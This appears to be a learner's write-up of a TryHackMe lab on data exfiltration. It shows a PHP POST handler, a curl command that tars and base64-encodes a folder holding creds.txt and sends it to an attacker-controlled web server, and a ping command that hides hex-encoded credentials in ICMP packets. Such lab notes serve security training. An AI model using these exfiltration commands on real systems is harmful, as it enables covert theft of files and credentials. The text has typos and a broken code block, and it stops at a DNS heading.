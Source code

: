 ## Table of Contents



|   |   |   |
|---|---|---|
|**Domain Name**|**IP Address**|**Network Access**|
|jump.thm.com|192.168.0.133|Net 1 and Net 2|
|uploader.thm.com|172.20.0.100|Net 1|
|flag.thm.com|*****.**.*.*****|Net 1|
|victim2.thm.com|172.20.0.101|Net 1|
|web.thm.com|192.168.0.100|Net 2|
|icmp.thm.com|192.168.0.121|Net 2|
|victim1.thm.com|192.168.0.101|Net 2|


HTTP POST Request~
Exfiltration data through the HTTP Protocol is one of the best options becuase it is challenging ti detect. It is touch to distinguish between legitimate and malicious http traffic. We will use the POST HTTP method in the data exfiltration, and the reason is with the get request, all parameters are registers into the log file. While using POST request, it doesnt. the following are some of the POST method benefits:

- POST requests are never cached
- POST requests do not remain in the browser history
- POST requests cannot be bookmarked
- POST requests have no restrictions on **data length**


```
cat /var/log/apache2/access.log

thm@web-thm:~$ sudo cat /var/log/apache2/access.log
[sudo] password for thm: 
192.168.0.133 - - [29/Apr/2022:11:41:54 +0100] "GET /example.php?flag=VEhNe0g3N1AtRzM3LTE1LWYwdW42fQo= HTTP/1.1" 200 495 "-" "curl/7.68.0"
192.168.0.133 - - [29/Apr/2022:11:42:14 +0100] "POST /example.php HTTP/1.1" 200 395 "-" "curl/7.68.0"
192.168.0.1 - - [20/Jun/2022:06:18:35 +0100] "GET /test.php HTTP/1.1" 200 195 "-" "curl/7.68.0"
thm@web-thm:~$ 
```

the first line is a GET request with a file parameter with exfiltrated data. If you try to decode it using the base64 encoding, you would get the transmitted data, which in this case is thm:tryhackme. While the second request is a POST to example.php, we sent the same base64 data, but it doesnt show what data was transmitted.

The base64 data in your access.log looks different. Decode it to find the flag for question 1

`echo 'VEhNe0g3N1AtRzM3LTE1LWYwdW42fQo' | base64 -d`


Based on the attacker configuration, we can set up either HTTP or HTTPS, the encrypted version of HTTP. We also need a PHP page that handles the POST HTTP request sent to the server.

We will be using the HTTP protocol (not the HTTPS) in our scenario. Now let's assume that an attacker controls the web.thm.com server, and sensitive data must be sent from the JumpBox or  victim1.thm.com machine in our Network 2 environment (192.168.0.0/24).  

To exfiltrate data over the HTTP protocol, we can apply the following steps:

1. An attacker sets up a web server with a data handler. In our case, it will be web.thm.com and the contact.php page as a data handler.
2. A C2 agent or an attacker sends the data. In our case, we will send data using the curl command.
3. The webserver receives the data and stores it. In our case, the contact.php receives the POST request and stores it into /tmp.
4. The attacker logs into the webserver to have a copy of the received data.

Let's follow and apply what we discussed in the previous steps. Remember, since we are using the HTTP protocol, the data will be sent in cleartext. However, we will be using other techniques (tar and base64) to change the data's string format so that it wouldn't be in a human-readable format!

First, we prepared a webserver with a data handler for this task. The following code snapshot is of PHP code to handle POST requests via a file parameter and stores the received data in the /tmp directory as http.bs64 file name.

`<?php
if (isset($_POST['file'])) {
    ```php
$file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>

From the jump machine connect to the victime1.thm.com machine via ssh to exfiltrate the reqired data over the HTTP protocol. 

The goal is to transfer the folder's content, stored in /home/thm/task6, to another machine over the HTTP protocol.

Checking the Secret folder!  

```markup
thm@victim1:~$ ls -l
total 12
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task4
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task5
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task6
drwxr-xr-x 1 root root 4096 Jun 19 19:43 task9
```

Now that we have our data, we will be using the curl command to send an HTTP POST request with the content of the secret folder as follows,

Sending POST data via CURL  

```markup
thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```


Nice! We have received the data, but if you look closely at the http.bs64 file, you can see it is broken base64. This happens due to the URL encoding over the HTTP. The + symbol has been replaced with empty spaces, so let's fix it using the sed command as follows,

thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64


Restoring the Data

```markup
thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
tmp/task6/
tmp/task6/creds.txt
```

Finally, we decoded the base64 string using the base64 command with -d argument, then we passed the decoded file and unarchived it using the tar command.


**Exfiltration using ICMP**

Let's say that we need to exfiltrate the following credentials thm:tryhackme. First, we need to convert it to its Hex representation and then pass it to the ping command using -p options as follows,
root@attackbox$ echo "thm:tryhackme" | xxd -p

We used the xxd command to convert our string to Hex, and then we can use the ping command with the hex value we got from converting the thm:tryhackme

Send Hex using the ping command.  

```markup
root@AttackBox$ ping 10.10.191.98 -c 1 -p 74686d3a7472796861636b6d650a
```

We sent one ICMP packet using the ping command with thm:tryhackme Data. Let's look at the Data section for this packet in the Wireshark.

We have successfully filled the ICMP's data section with out data and manually sent it over the network using the ping command


Attackbox IP: 10.10.14.235

We sent one ICMP packet using the nping command with --data-string argument. We specify the trigger value with the file name BOFfile.txt, set by default in the Metasploit framework. This could be changed from Metasploit if needed!

Now check the AttackBox terminal. If everything is set correctly, the Metasploit framework should identify the trigger value and wait for the data to be written to disk. 

Let's start sending the required data and the end of the file trigger value from the ICMP machine.


[DNS Configurations]



